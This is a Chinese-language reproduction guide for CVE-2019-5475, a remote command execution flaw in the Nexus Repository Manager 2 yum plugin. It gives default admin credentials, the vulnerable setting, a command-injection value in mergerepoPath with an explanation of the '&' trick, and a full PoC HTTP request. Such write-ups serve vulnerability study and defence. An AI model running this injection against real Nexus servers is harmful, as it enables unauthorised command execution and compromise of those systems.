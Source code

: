 ```yaml
---
title: （CVE-2019-5475）Nexus2 yum插件RCE漏洞
id: zhfly3039
---
```


# （CVE-2019-5475）Nexus2 yum插件RCE漏洞

## 一、漏洞简介

该漏洞默认存在部署权限账号，成功登录后可使用“createrepo”或“mergerepo”自定义配置，可触发远程命令执行漏洞

## 二、漏洞影响

Nexus Repository Manager OSS <= 2.14.13
Nexus Repository Manager Pro <= 2.14.13
限制：admin权限才可触发漏洞

## 三、复现过程

首先以管理员身份（admin/admin123）登录
然后找到漏洞位置：Capabilities - Yum:Configuration - Settings

![image](../img/8590877884662d4d3fc69224fb507594.png)

点击 Save 抓包，更改mergerepoPath后的value值

```
C:\\Windows\\System32\\cmd.exe /k dir& 
```

![image](../img/3e7535f6f94716328aadcec9855c5f75.png)

此处使用 /k 是因为这样命令执行完会保留进程不退出，而 /c 后执行完会退出；由于给用户提供的命令后面加了一个 --version，所以后面要加个&，&表两个命令同时执行，这样就不会干扰其他命令的执行

Poc如下：

```
PUT /nexus/service/siesta/capabilities/00012bdb034073a3 HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: application/json,application/vnd.siesta-error-v1+json,application/vnd.siesta-validation-errors-v1+json
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Nexus-UI: true
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 241
DNT: 1
Connection: close
Referer: http://127.0.0.1:8081/nexus/
Cookie: NXSESSIONID=105c7cb1-a307-43a3-9ff8-9770b5ae3b13 `{“typeId”:“yum”,“enabled”:true,“properties”:[{“key”:“maxNumberParallelThreads”,“value”:“10”},{“key”:“createrepoPath”,“value”:“111”},{“key”:“mergerepoPath”,“value”:“C:\Windows\System32\cmd.exe /k dir&”}],“id”:“00012bdb034073a3”,“notes”:""}` 
```